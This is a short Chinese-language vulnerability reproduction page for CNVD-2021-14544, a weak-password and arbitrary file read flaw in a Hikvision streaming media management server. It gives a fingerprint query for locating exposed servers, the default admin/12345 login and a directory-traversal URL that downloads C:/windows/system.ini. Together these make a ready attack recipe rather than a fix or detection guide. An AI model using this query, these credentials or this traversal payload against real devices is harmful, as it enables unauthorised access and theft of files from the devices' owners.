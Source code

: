 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

# HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`

![image-20220519172955875](/images/202205191729966.png)

访问如下URL下载`C:/windows/system.ini`文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```


